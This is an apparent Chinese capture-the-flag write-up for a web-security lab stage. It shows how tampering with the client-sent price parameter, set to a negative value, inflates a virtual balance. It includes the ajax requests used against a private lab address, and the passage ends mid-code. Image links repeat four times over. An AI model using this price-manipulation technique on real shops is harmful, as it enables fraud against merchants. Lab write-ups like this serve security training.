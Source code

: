 ### 1. 提示
提示如下：
> 任务目标：通过本页面提供的虚拟货币购买价值最高的物品
Tips：0 - (-1) = 1

### 2. 界面
界面如下图所示：
![关卡4](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_21.png)
![关卡4](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_21.png)
![关卡4](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_21.png)
![关卡4](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_21.png)

### 3. 揭密
由于初始时每人只拥有5000000的虚拟货币，完全不只以购买价值最高的物品。
因为要购买前需要增加自己的虚拟货币。

再根据下面的提示说0 - (-1) = 1，可与购买联想到：购买物品时，修改传到后端的价格为负数，来达到为自己增加虚拟货币的目的。

于是我们尝试购买价格为399的物品。系统提示：购买成功，但是未购买价值最高的物品，如下图所示：
![未购买最高价值的物品](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_22.png)
![未购买最高价值的物品](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_22.png)
![未购买最高价值的物品](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_22.png)
![未购买最高价值的物品](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_22.png)

我们再通过console可以看到，发出的POST请求为：http://10.4.236.115:8080/sohu/stage4/pass?id=1&price=399

查看购买的js请求代码如下：
![关卡4-js代码](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_23.png)
![关卡4-js代码](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_23.png)
![关卡4-js代码](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_23.png)
![关卡4-js代码](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_23.png)

在下一次购买请求时，设置price值为 -7999999 。请求完成后，依然提示购买失败的消息，但是虚拟货币却变成了：12999600。

于是，我们就可以开开心心地购买最高价格的物品了。

完成的js操作如下所示：
``` javascript
// 增加虚拟货币
var url = 'http://10.4.236.115:8080/sohu/stage4/pass?id=1&price=-7999999';
$.ajax({
    method: 'post',
    async: false,
    url: url,
    success: function(data) {
        if (data.status == 200) {
            console.log('SUCCESS');
        }
    }
});

// 购买最高价格物品
var url = 'http://10.4.236.115:8080/sohu/stage4/pass?id=3&price=7999999';
$.ajax({
    method: 'post',
    async: false,
    url: url,
    success: function(data) {
```